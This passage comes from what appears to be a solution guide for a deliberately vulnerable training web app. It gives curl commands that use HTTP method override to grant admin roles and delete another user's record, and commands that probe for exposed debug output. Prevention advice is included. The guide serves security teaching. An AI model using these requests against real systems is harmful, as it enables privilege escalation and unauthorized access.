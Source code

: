 **Explanation:** Try to access documents, files, or reports by guessing or incrementing object identifiers.

#### Step 5: Method Override
**Objective:** Use different HTTP methods to bypass restrictions

```bash
curl -X PUT "http://localhost:5000/api/vuln/access-control?user_id=1" -d "role=admin"
curl -X PATCH "http://localhost:5000/api/vuln/access-control?user_id=1" -d "admin=true"
curl -X DELETE "http://localhost:5000/api/vuln/access-control?user_id=2"
```

**Test method override headers:**
```bash
curl -X POST "http://localhost:5000/api/vuln/access-control" -H "X-HTTP-Method-Override: PUT" -d "user_id=1&role=admin"
```

**Explanation:** Try different HTTP methods that might have different access control implementations.

### Prevention Measures
1. Implement proper authorization checks on every request
2. Use role-based access control (RBAC)
3. Validate user permissions server-side for all operations
4. Implement the principle of least privilege
5. Use indirect object references instead of direct ones

---

## 7. Security Misconfiguration

### Vulnerability Description
Security misconfigurations occur when applications, servers, or frameworks are deployed with insecure default settings, incomplete configurations, or unnecessary features enabled.

### Impact
- Information disclosure
- Unauthorized access
- System compromise
- Data breaches
- Administrative access

### Lab Solution Steps

#### Step 1: Check Debug Information
**Objective:** Look for exposed debug or error information

```bash
curl "http://localhost:5000/api/vuln/misconfig?debug=true"
curl "http://localhost:5000/api/vuln/misconfig?test=true"
curl "http://localhost:5000/api/vuln/misconfig?verbose=1"
curl "http://localhost:5000/api/vuln/misconfig" -H "X-Debug: 1"
```
